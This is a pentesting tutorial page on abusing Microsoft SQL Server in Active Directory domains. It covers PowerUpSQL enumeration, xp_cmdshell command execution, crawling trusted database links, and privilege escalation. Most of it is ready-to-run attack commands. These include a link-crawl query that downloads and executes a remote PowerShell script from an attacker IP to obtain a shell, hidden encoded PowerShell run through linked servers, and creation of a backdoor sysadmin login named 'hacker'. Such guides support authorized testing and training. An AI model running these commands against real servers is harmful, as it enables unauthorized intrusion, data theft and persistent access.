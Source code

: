 # MSSQL AD Abuse


<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## **MSSQL Enumeration / Discovery**

The powershell module [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) is very useful in this case.

```powershell
Import-Module .\PowerupSQL.psd1
```

### Enumerating from the network without domain session

```powershell
# Get local MSSQL instance (if any)
Get-SQLInstanceLocal
Get-SQLInstanceLocal | Get-SQLServerInfo

#If you don't have a AD account, you can try to find MSSQL scanning via UDP
#First, you will need a list of hosts to scan
Get-Content c:\temp\computers.txt | Get-SQLInstanceScanUDP –Verbose –Threads 10

#If you have some valid credentials and you have discovered valid MSSQL hosts you can try to login into them
#The discovered MSSQL servers must be on the file: C:\temp\instances.txt
Get-SQLInstanceFile -FilePath C:\temp\instances.txt | Get-SQLConnectionTest -Verbose -Username test -Password test
```

### Enumerating from inside the domain

```powershell
# Get local MSSQL instance (if any)
Get-SQLInstanceLocal
Get-SQLInstanceLocal | Get-SQLServerInfo

#Get info about valid MSQL instances running in domain
#This looks for SPNs that starts with MSSQL (not always is a MSSQL running instance)
Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose 

#Test connections with each one
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -verbose

#Try to connect and obtain info from each MSSQL server (also useful to check conectivity)
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

# Get DBs, test connections and get info in oneliner
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
```

## MSSQL Basic Abuse

### Access DB

```powershell
#Perform a SQL query
Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select @@servername"

#Dump an instance (a lotof CVSs generated in current dir)
Invoke-SQLDumpInfo -Verbose -Instance "dcorp-mssql"

# Search keywords in columns trying to access the MSSQL DBs
## This won't use trusted SQL links
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "password" -SampleSize 5 | select instance, database, column, sample | ft -autosize
```

### MSSQL RCE

It might be also possible to **execute commands** inside the MSSQL host

```powershell
Invoke-SQLOSCmd -Instance "srv.sub.domain.local,1433" -Command "whoami" -RawResults
# Invoke-SQLOSCmd automatically checks if xp_cmdshell is enable and enables it if necessary
```

Check in the page mentioned in the **following section how to do this manually.**

### MSSQL Basic Hacking Tricks

{% content-ref url="../../network-services-pentesting/pentesting-mssql-microsoft-sql-server/" %}
[pentesting-mssql-microsoft-sql-server](../../network-services-pentesting/pentesting-mssql-microsoft-sql-server/)
{% endcontent-ref %}

## MSSQL Trusted Links

If a MSSQL instance is trusted (database link) by a different MSSQL instance. If the user has privileges over the trusted database, he is going to be able to **use the trust relationship to execute queries also in the other instance**. This trusts can be chained and at some point the user might be able to find some misconfigured database where he can execute commands.

**The links between databases work even across forest trusts.**

### Powershell Abuse

```powershell
#Look for MSSQL links of an accessible instance
Get-SQLServerLink -Instance dcorp-mssql -Verbose #Check for DatabaseLinkd > 0

#Crawl trusted links, starting from the given one (the user being used by the MSSQL instance is also specified)
Get-SQLServerLinkCrawl -Instance mssql-srv.domain.local -Verbose

#If you are sysadmin in some trusted link you can enable xp_cmdshell with:
Get-SQLServerLinkCrawl -instance "<INSTANCE1>" -verbose -Query 'EXECUTE(''sp_configure ''''xp_cmdshell'''',1;reconfigure;'') AT "<INSTANCE2>"'

#Execute a query in all linked instances (try to execute commands), output should be in CustomQuery field
Get-SQLServerLinkCrawl -Instance mssql-srv.domain.local -Query "exec master..xp_cmdshell 'whoami'"

#Obtain a shell
Get-SQLServerLinkCrawl -Instance dcorp-mssql  -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1'')"'

#Check for possible vulnerabilities on an instance where you have access
Invoke-SQLAudit -Verbose -Instance "dcorp-mssql.dollarcorp.moneycorp.local"

#Try to escalate privileges on an instance
Invoke-SQLEscalatePriv –Verbose –Instance "SQLServer1\Instance1"

#Manual trusted link queery
Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select * from openquery(""sql2.domain.io"", 'select * from information_schema.tables')"
## Enable xp_cmdshell and check it
Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'SELECT * FROM OPENQUERY("sql2.domain.io", ''SELECT * FROM sys.configurations WHERE name = ''''xp_cmdshell'''''');'
Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'EXEC(''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT [sql.rto.external]'
Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'EXEC(''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT [sql.rto.external]'
## If you see the results of @@selectname, it worked
Get-SQLQuery -Instance "sql.rto.local,1433" -Query 'SELECT * FROM OPENQUERY("sql.rto.external", ''select @@servername; exec xp_cmdshell ''''powershell whoami'''''');'
```

### Metasploit

You can easily check for trusted links using metasploit.

```bash
#Set username, password, windows auth (if using AD), IP...
msf> use exploit/windows/mssql/mssql_linkcrawler
[msf> set DEPLOY true] #Set DEPLOY to true if you want to abuse the privileges to obtain a meterpreter session
```

Notice that metasploit will try to abuse only the `openquery()` function in MSSQL (so, if you can't execute command with `openquery()` you will need to try the `EXECUTE` method **manually** to execute commands, see more below.)

### Manual - Openquery()

From **Linux** you could obtain a MSSQL console shell with **sqsh** and **mssqlclient.py.**

From **Windows** you could also find the links and execute commands manually using a **MSSQL client like** [**HeidiSQL**](https://www.heidisql.com)

_Login using Windows authentication:_

![](<../../.gitbook/assets/image (808).png>)

#### Find Trustable Links

```sql
select * from master..sysservers;
EXEC sp_linkedservers;
```

![](<../../.gitbook/assets/image (716).png>)

#### Execute queries in trustable link

Execute queries through the link (example: find more links in the new accessible instance):

```sql
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
```

{% hint style="warning" %}
Check where double and single quotes are used, it's important to use them that way.
{% endhint %}

![](<../../.gitbook/assets/image (643).png>)

You can continue these trusted links chain forever manually.

```sql
# First level RCE
SELECT * FROM OPENQUERY("<computer>", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc blah''')

# Second level RCE
SELECT * FROM OPENQUERY("<computer1>", 'select * from openquery("<computer2>", ''select @@servername; exec xp_cmdshell ''''powershell -enc blah'''''')')
```

If you cannot perform actions like `exec xp_cmdshell` from `openquery()` try with the `EXECUTE` method.

### Manual - EXECUTE

You can also abuse trusted links using `EXECUTE`:

```bash
#Create user and give admin privileges
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```

## Local Privilege Escalation

The **MSSQL local user** usually has a special type of privilege called **`SeImpersonatePrivilege`**. This allows the account to "impersonate a client after authentication".

A strategy that many authors have come up with is to force a SYSTEM service to authenticate to a rogue or man-in-the-middle service that the attacker creates. This rogue service is then able to impersonate the SYSTEM service whilst it's trying to authenticate.

[SweetPotato](https://github.com/CCob/SweetPotato) has a collection of these various techniques which can be executed via Beacon's `execute-assembly` command.

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

